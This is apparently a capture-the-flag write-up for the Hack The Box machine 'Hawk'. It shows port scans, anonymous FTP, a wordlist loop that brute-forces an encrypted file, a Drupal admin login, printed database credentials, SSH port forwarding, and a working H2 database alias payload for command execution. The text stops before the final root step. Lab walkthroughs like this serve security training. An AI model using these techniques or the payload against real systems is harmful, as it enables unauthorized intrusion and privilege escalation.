



# Hawk
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.102                              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-22 17:48 BST
Stats: 0:09:35 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 78.74% done; ETC: 18:00 (0:02:35 remaining)
Nmap scan report for 10.10.10.102 (10.10.10.102)
Host is up (0.15s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
5435/tcp open  sceanics
8082/tcp open  blackice-alerts
9092/tcp open  XmlIpcRegSvc
```
```
└─$ nmap -Pn -p21,22,80,5435,8082,9092 -sC -sV  10.10.10.102 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-22 18:04 BST
Nmap scan report for 10.10.10.102 (10.10.10.102)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
5435/tcp open  tcpwrapped
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.94%I=7%D=10/22%Time=65355639%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r")%r(Kerberos,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0
SF:F\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\
SF:0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t
SF:\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0
SF:l\0o\0w\0O\0t\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\
SF:0g\0\.\0h\x002\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\
SF:0t\0i\0o\0n\0:\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o
SF:\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0
SF:r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\
SF:0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x
SF:001\x007\0-\x001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002
SF:\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0
SF:e\0t\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c
SF:\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\
SF:0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\
SF:0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.
SF:\0j\0a\0v\0a\0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\
SF:x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\
SF:0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x
SF:005\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0
SF:a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\
SF:0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0
SF:a\0t\0\x20\0o\0r");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.22 seconds

```

- `Drupal`


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.102 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  -x php,txt -k --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.102
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.txt                 (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 291]
/search               (Status: 403) [Size: 7398]
/index.php            (Status: 200) [Size: 7464]
/misc                 (Status: 301) [Size: 311] [--> http://10.10.10.102/misc/]
/0                    (Status: 200) [Size: 7464]
/user                 (Status: 200) [Size: 7297]
/themes               (Status: 301) [Size: 313] [--> http://10.10.10.102/themes/]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.102/modules/]
/admin                (Status: 403) [Size: 7551]
/scripts              (Status: 301) [Size: 314] [--> http://10.10.10.102/scripts/]
/node                 (Status: 200) [Size: 7464]
/Search               (Status: 403) [Size: 7398]
/sites                (Status: 301) [Size: 312] [--> http://10.10.10.102/sites/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.102/includes/]
/install.php          (Status: 200) [Size: 3172]
/profiles             (Status: 301) [Size: 315] [--> http://10.10.10.102/profiles/]
/update.php           (Status: 403) [Size: 4060]
/README               (Status: 200) [Size: 5382]
/README.txt           (Status: 200) [Size: 5382]
/robots               (Status: 200) [Size: 2189]
/robots.txt           (Status: 200) [Size: 2189]
/cron.php             (Status: 403) [Size: 7406]
/INSTALL              (Status: 200) [Size: 17995]
/INSTALL.txt          (Status: 200) [Size: 17995]
/LICENSE              (Status: 200) [Size: 18092]
/LICENSE.txt          (Status: 200) [Size: 18092]
/User                 (Status: 200) [Size: 8940]
```

- `ftp`
```
└─$ ftp anonymous@10.10.10.102                                                                                                     
Connected to 10.10.10.102.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40172|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
226 Directory send OK.
ftp> cd messages
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||41614|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -lha
229 Entering Extended Passive Mode (|||48301|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 .
drwxr-xr-x    3 ftp      ftp          4096 Jun 16  2018 ..
-rw-r--r--    1 ftp      ftp           240 Jun 16  2018 .drupal.txt.enc
226 Directory send OK.
ftp> more .drupal.txt.enc
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
```

- Port `8082`


- `droopescan`
```
└─$ droopescan scan drupal -u http://10.10.10.102
[+] Plugins found:                                                              
    profile http://10.10.10.102/modules/profile/
    php http://10.10.10.102/modules/php/
    image http://10.10.10.102/modules/image/

[+] Themes found:
    seven http://10.10.10.102/themes/seven/
    garland http://10.10.10.102/themes/garland/

[+] Possible version(s):
    7.58

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.102/CHANGELOG.txt
    Default admin - http://10.10.10.102/user/login

[+] Scan finished (0:03:49.891702 elapsed)

```

## Foothold
- File from `ftp`
```
└─$ file drupal.txt.enc          
drupal.txt.enc: openssl enc'd data with salted password, base64 encoded
```
- Let's decrypt
  - We could use https://github.com/HrushikeshK/openssl-bruteforce
  - or `openssl` by assuming that the most common encryption was used: `AES-256-CBC`
```
└─$ cat /usr/share/wordlists/rockyou.txt | while read pass; do (openssl enc -d -a -AES-256-CBC -in drupal.txt.enc -k $pass > devnull 2>&1); if [[ $? -eq 0 ]]; then echo "Success: $pass";break; fi; done;
Success: friends
```
```
└─$ openssl enc -d -a -AES-256-CBC -in drupal.txt.enc -k friends 
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```

- Let's login to `drupal`
  - `admin:PencilKeyboardScanner123`


- Let's get `reverse shell`
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce


- Click `preview`


## User
- We can check `drupal` settings
  - Located in `/var/www/html/sites/default/settings.php`
```
...
 * @endcode
 */
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

/**
...
```

- `su` to `daniel`
```
www-data@hawk:/var/www/html$ su daniel                     
Password: 
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 

```

- We can launch `subprocess`
```
>>> import subprocess
>>> subprocess.call('/bin/bash', shell=True)
daniel@hawk:/var/www/html$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
daniel@hawk:/var/www/html$ 
```
## Root
- Enumerate
```
daniel@hawk:/var/www/html$ ps -aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.8 159552  8904 ?        Ss   16:47   0:02 /sbin/init maybe-ubiquity
...
root       749  0.0  0.0   4628   860 ?        Ss   16:47   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root       750  0.1  5.1 2341724 52136 ?       Sl   16:47   0:06 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
...
```

- It's probably `H2` database wwe saww earlier on port `8082`
  - `ssh` works, we can configure port forwarding 
```
└─$ ssh -L 8082:localhost:8082 daniel@10.10.10.102                                                                                
Warning: Permanently added '10.10.10.102' (ED25519) to the list of known hosts.
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 22 18:19:40 UTC 2023

  System load:  0.0               Processes:           179
  Usage of /:   47.6% of 7.32GB   Users logged in:     0
  Memory usage: 49%               IP address for eth0: 10.10.10.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.


Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> subprocess.call('/bin/bash', shell=True)
daniel@hawk:~$ 

```

- We saw an error earlier on port `8082`, now we can access it via `localhost:8082`



- I can't login using previous creds
  - But we can use non-existent url to get access
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/h2-java-sql-database#access



- Now we can create `alias`
  - https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
  - `CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;`




- Now let's get a `root`


